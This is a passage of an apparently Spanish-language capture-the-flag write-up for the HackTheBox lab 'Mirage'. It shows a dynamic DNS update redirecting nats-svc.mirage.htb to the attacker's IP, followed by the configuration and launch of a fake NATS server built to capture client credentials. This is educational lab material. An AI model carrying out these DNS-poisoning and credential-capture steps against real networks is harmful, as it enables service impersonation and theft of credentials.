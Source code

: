 ```bash
Sending update to 10.10.11.78#53
Outgoing update query:
;; ->>HEADER<<- opcode: UPDATE, status: NOERROR, id:   8385
;; flags:; ZONE: 1, PREREQ: 0, UPDATE: 1, ADDITIONAL: 0
;; UPDATE SECTION:
nats-svc.mirage.htb.	3600	IN	A	10.10.14.128


Reply from update query:
;; ->>HEADER<<- opcode: UPDATE, status: NOERROR, id:   8385
;; flags: qr; ZONE: 1, PREREQ: 0, UPDATE: 1, ADDITIONAL: 0
;; ZONE SECTION:
;mirage.htb.			IN	SOA

;; UPDATE SECTION:
nats-svc.mirage.htb.	3600	IN	A	10.10.14.128
```

hemos logrado agregar exitosamente un registro `DNS` malicioso para `nats-svc.mirage.htb` apuntando a mi IP `(10.10.14.128).` Ahora el siguiente paso sera falsificar un `NATS`

### Falsificando un server NATS

Primero creamos un archivo de configuracion para el Server falso

```bash
nano config.conf
```
```bash
port: 4222
monitor_port: 8222
authorization {
  token: "token_falso"  # Token inventado (para forzar al cliente a enviar sus creds)
}
logtime: true
logfile: "nats.log"
debug: true
trace: true
```

ahora levantamos el servidor, pero si no tienes la herramienta instalada, desde kali la instalamos asi

```bash
sudo apt install nats-server
```

despues de la instalacion, levantamos el servidor falso

```bash
nats-server -c config.conf
```

por otro lado observamos en vivo y directo los logs

```bash
tail -f nats.log
```
